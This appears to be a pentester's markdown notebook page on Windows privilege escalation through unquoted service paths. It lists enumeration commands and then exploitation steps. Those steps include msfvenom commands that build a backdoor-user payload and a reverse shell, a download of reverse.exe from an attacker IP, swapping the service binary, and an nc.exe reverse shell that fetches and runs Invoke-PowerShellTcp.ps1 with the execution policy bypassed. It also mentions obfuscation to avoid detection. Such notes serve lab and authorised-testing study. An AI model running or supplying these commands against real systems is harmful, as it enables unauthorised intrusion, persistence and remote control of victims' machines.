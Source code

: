 #### Tags: [[06 - Privilege Escalation (TA0004)]] 

## Overview | Service Misconfiguration

Unquoted Service Path exploitation Pre-requisite

	- PATH is not using Quotes and Contains Space
	- Writeable PATH: Users should have write access in one of the folders where the binary path resides
	- Executes as LocalSystem
	- Users should have the right to restart the Service
## Enumeration 

### Script Enumeration
- Import script in memory & Do not touch the disk
- PowerShell Script Obfuscation Tools: https://github.com/JoelGMSec/Invoke-Stealth
```markdown
# PowerUp Obfuscated
GitHub Fetch Scipt > Execute! 
[RT GitHub: PScriptsObs: Scripts Obfuscated via chameleon](https://github.com/raghavtalwar/PScriptsObs/)

# PS Scripts
*Winpeas*
.\winPEAS.exe quiet servicesinfo
*PowerUp*
powershell.exe -nop -exec bypass -c ". .\PowerUp.ps1;Get-UnquotedService"

## Find them
powershell> Get-UnquotedService
powershell> Get-ModifiableServiceFile
powershell> Get-ModifiableService

# Execure a reverse shell or adding new user as administrator.
Write-ServiceBinary -name "Service_Name" -Path "C:\Service_name.exe"
Write-ServiceBinary -Name 'SalesFarce' -Path <HijackPath>
```
### Manual Enumeration
```
##  WMI (Powershell) ##
PS:> 
Get-WmiObject win32_service | select Name,PathName,StartMode,StartName | where {$_.StartMode -ne "Disabled" -and $_.StartName -eq "LocalSystem" -and $_.PathName -notmatch "`"" -and $_.PathName -notmatch "C:\\Windows"} | Format-List

##  Windows Management Instrumentation Command-Line (WMIC)  ##
CMD:> 
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

```markdown
# Identfy service with weak permissions or unquoted paths 
CMD:> .\accesschk64.exe /accepteula -uwcqv studentuser ***
PS:> Get-WmiObject -Class win32_service | select pathname
	+ Look out for Service with Spaces and not having Quotes!

# Manually Query Service 
CMD:> sc qc "service_name"
PS:> cmd /c sc qc "BOOTP Turbo"

# AccessCHK - Sysinternals
## Check Write access to Directory under Unquoted Service PATH
C:\PrivEsc\accesschk.exe /accepteula -wuqvd "C:\Program Files\Unquoted Path Service\"
RW BUILTIN\Users
	FILE_ALL_ACCESS
# ICACLS - Inbuilt binary

```

![[Pasted image 20240330234652.png]]
## Exploitation 
### Create Malicious Service
```markdown
# Add User Exploiation
msfvenom -p windows/adduser USER=backdoor PASS=backdoor -f exe > service.exe

# Reverse Shell Exploitation
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```
### Replace Service
#### Fetch the reverse.exe executable & Rename Correctly  >>  SMB
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
`Ren "C:\Program Files\Unquoted Path Service\Common.exe" Unquoted.exe
#### Fetch the reverse.exe executable & Copy Correctly  >>  HTTP
`IWR -Uri 'http://10.0.2.54:90/reverse.exe' -Outfile "BOOTP.exe"
`copy C:\Temp\BOOTP.exe "C:\Program Files\BOOTP.exe"
### Start the service post modification of PATH
- Restart Service
	- `net stop <service>`
	- `net start <service>`
	or
	- `sc stop service_name
	- `sc start service_name`
- If unable to start the service try rebooting machine
	- `shutdown /r /t 0`

#### Notes | Bonus
- Create Links to this Page! 

##### # Transfer the Reverse Shell & !!IMP NOTE!!
- Example Full Path - 
    + `C:\Program Files\Unquoted Path Service\Common Files\jerry.exe`
- An attacker can exploit this vulnerability by placing a malicious executable named `Program.exe`, `Files.exe`, or `Unquoted.exe`
- Place Reverse Shell, as `Unquoted.exe` under Program Files Folder
- Or, Place `Common.exe` under the Unquoted Path Service Folder
- Thus, Place it one Dir < BEFORE > as when Service Control Manager
- SCM starts this service, it will look at the following PATH
    + It will run the EXE that it will FIND.

Thus, windows primarily searches for an executable file based on the path specified in the service's configuration, not by the service name.

##### Spawn Powershell from Command Injection Vulnerability
`\\10.0.2.54\kali\nc.exe 10.0.2.54 443 -e "cmd.exe /c C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -ep bypass iex(new-object net.webclient).downloadstring('http://10.0.2.54/Invoke-PowerShellTcp.ps1')"`
	+ Bypass Execution Policy as well!